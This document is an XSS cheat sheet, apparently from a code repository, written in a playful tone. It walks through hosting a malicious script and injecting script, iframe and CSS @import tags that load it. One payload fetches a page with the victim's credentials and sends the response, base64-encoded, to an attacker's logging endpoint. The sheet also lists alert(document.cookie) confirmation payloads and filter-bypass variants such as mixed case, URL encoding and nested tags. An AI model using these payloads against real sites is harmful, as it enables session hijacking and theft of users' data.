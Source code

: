 # Hey! Here's some fun little snippets for when you're doing some yummy XSS, Cookie & CSRF Theft!

## External Script Source
Sometimes, you're going to need to host the malicious code the victim needs to execute. When this happens, don't panic! find a good payload and then link back to the script on one of your machines

The Victim Sees:

```
<script src="http://⭐/external"></script>
<iframe src="http://⭐/external" style="display:none;"></iframe>

<style>
    @import url("http://⭐/external");
</style>
```

The Attacker Hosts:

python -m http.server

with the malicious script in the directory, named external

```
script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://🌙/page', true);
    xhr.withCredentials = true;
    xhr.onload = () => {
      location = 'http://⭐:8000/log?data=' + btoa(xhr.response);
    };
    xhr.send();
</script>
```

This can be a bit confusing but stick with it! Its just three parts; the injection point, the malicious script and the activity log!


# 🐈‍⬛confirmation🐈‍⬛

confirm XSS >> `<script>alert(1)</script>`
alternate confirmation >> `“><script>alert(document.cookie)</script>`

## 🐈‍⬛sanitization bypass🐈‍⬛

    "><script >alert(document.cookie)</script >
    "><ScRiPt>alert(document.cookie)</ScRiPt>
    "%3cscript%3ealert(document.cookie)%3c/script%3e
    <scr<script>ipt>alert(document.cookie)</script>
    <script src="http://attacker/xss.js"></script>
